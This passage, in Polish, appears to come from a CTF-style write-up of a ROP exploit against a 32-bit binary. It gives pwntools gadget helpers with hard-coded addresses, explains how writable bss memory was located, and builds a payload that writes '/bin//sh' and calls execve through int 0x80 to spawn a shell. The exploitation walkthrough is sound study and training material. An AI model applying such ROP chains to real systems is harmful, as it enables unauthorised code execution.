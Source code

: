 
```python=
def set_edx_ebx(edx,ebx):
    return p32(0x08065abe) + p32(edx) + p32(ebx) + p32(0xfadeface) 

def write_to_mem(addr, val):
    return set_eax(addr) + set_edx_ebx(val,0xfadeface) + p32(0x080793c4)

def set_eax(val):  
    return set_edx_ebx(val,0x0) + p32(0x0805bf75) + p32(0xfadeface)

def set_ecx(val):
    return p32(0x08063ca1) + p32(val)

def int80():
    return p32(0x0804a6c2)
```




Ostatnim elementem było odnalezienie odpowiedniego miejsca, w które mógłbym zapisać wartość `\bin\\sh`. Możlowości są dwie:
* wyleakować adres ze stosu, a następnie obliczyć offset na nasz buffor - w takim przypadku gadget odpowiadający za zapis na na stos byłby niepotrzebny
* odnaleźć wolne miejsce w sekcji bss aplikacji - ten sposób wykorzytsałem w tym przypadku



Aby odnaleźć sekcję `bss` programu poslużyłem się dekompilatorem `Ghidra`. Każda sekcja zawsze jest wyrównana do 12 bitów. W dekompilatorze widać, że sekcja bss kończy się na adresie `0x080e8140`. Oznacza to, że pamięć od adresu `0x080e8144` jest wolna. Można to sprawdzić za pomocą komendy `hexdump 0x080e8144` w gdb.  Warto zauważyć, że w tej sekcji pamięci jest wiele wolnego miejsca, w tym przypadku znajduje się tam jeszcze `0xebc` wolnych byt-ów.

```python=
>>> 0x1000 - 0x144
3772
>>> hex(_)
'0xebc'
```




Kolejnym etapem było stworzenie shellcode, który po dodaniu odpowiedniego paddingu ustawia odpowiednie rejestry. Shellcode wywołuje odpowiednie funkcje zdefiniowane wcześniej.

```python=
shellcode = b''.join([
    b"A" * 28,
    write_to_mem(buffor, u32("/bin")),
    write_to_mem(buffor + 4, u32("//sh")),
    set_ecx(0x0),
    set_eax(0x0b),
    set_edx_ebx(0x0, buffor),
    int80()
])
```
